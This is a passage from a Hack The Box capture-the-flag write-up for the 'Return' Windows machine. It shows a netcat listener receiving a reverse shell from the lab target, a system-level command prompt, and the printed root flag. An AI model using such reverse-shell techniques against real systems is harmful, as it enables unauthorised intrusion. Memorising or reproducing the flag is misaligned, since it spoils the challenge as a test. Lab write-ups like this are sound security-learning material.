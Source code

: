 And use nc to listen reverse shell

```shell
┌──(kali㉿kali)-[~/htb/machine/ad/return]
└─$ nc -nvlp 443                                   
listening on [any] 443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.11.108] 54619
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

And now, WE ARE ROOT !! 

Root flag: ```bfd83d73bbc30b65bcf1355c6a865bde```

# Box Rooted 

![image](https://raw.githubusercontent.com/ficstkeyfx/ficstkeyfx.github.io/refs/heads/main/.github/images/20241218_return_boxroot.png)

